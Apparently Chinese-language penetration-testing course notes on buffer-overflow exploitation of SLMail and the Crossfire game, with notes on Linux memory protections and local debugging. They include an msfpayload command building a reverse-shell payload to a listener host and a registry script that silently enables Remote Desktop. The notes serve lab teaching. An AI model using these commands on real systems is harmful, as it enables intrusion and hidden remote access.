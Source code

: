 
#### FUZZING

- Shellcode执行结束后以 ExitProcess 方式退出整个进程，将导致邮件服务崩溃；
- Slmail是一个基于线程的应用，适用ExitThread方式可以避免整个服务崩溃，可实现重复溢出；
- ./msfpayload win32_reverse LHOST=192.168.20.8 EXITFUNC=thread LPORT=443 R
    | ./msfencode - b “\x00\x0a\x0d”


#### FUZZING

- echo Windows Registry Editor Version 5.00>3389.reg
    echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal
    Server]>>3389.reg
    echo "fDenyTSConnections"=dword:00000000>>3389.reg
    echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal
    Server\Wds\rdpwd\Tds\tcp]>>3389.reg
    echo "PortNumber"=dword:00000d3d>>3389.reg
    echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal
    Server\WinStations\RDP-Tcp]>>3389.reg
    echo "PortNumber"=dword:00000d3d>>3389.reg
    regedit /s 3389.reg


#### LINUX 缓冲区溢出


#### FUZZING

- Crossfire
    - 多人在线 RPG 游戏
    - 1.9.0 版本接受入站 socket 连接时存在缓冲区溢出漏洞
- 调试工具
    - edb
- 运行平台
    - Kali i486 虚拟机


#### FUZZING

- 新版本Linux内核支持内存保护机制
    - DEP
    - ASLR
    - 堆栈 cookies
    - 堆栈粉碎


#### FUZZING

- 本机调试
    - iptables -A INPUT -p tcp --destination-port 4444 \! -d 127.0.0.1 -j DROP
    - iptables -A INPUT -p tcp --destination-port 13327 \! -d 127.0.0.1 -j DROP


#### FUZZING
